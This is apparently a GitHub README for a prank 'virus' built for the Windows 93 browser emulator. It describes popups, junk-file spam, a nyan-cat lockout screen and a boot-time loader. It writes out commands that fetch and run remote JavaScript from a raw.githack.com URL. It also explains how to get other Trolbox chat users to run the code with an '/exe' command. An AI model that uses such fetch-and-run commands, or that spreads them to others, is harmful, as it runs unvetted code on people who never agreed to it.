 # Memz-virus-v6

Hello there
This virus is inspired by the original MEMZ virus.
It is meant to run in the windows 93 emulator and was made in the emulator at http://windows93.net/

I would say this would be the best virus you can play with in win 93.



# What does it do?

The virus will make popups on your screen to annoy you including 2 other popups that will 
1: Load a memory virus. (spams you with junk files)

2: A fake reboot button that will put a nyan cat on your screen and play nyan cat music.
^^^(this will also not allow you to do anything, there will only be a nyan cat on your screen.)

The virus will open win 93 apps incuding Hydra.exe, and will also infect your boot with a js file that loads itself whenever you boot up. 
-->code($loader.script("https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js"))

There is another feature which defines that this is a virus. You can make others get it on their pc using the win 93 app, Trolbox.
In trolbox u need to type in the command  /exe js https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js

The /exe command in trolbox is the executing command that will allow others to execute whatever you put after the exe.

This will make a /exe box next to your code which allows others to click that and execute that line of code.
It's the same thing in terminal. If you type js https://raw.githack.com/mhmmkm/Memz-virus-v6/main/Code.js
it will load the raw code.

I used https://raw.githack.com/ to make the code in this git be in a raw form.




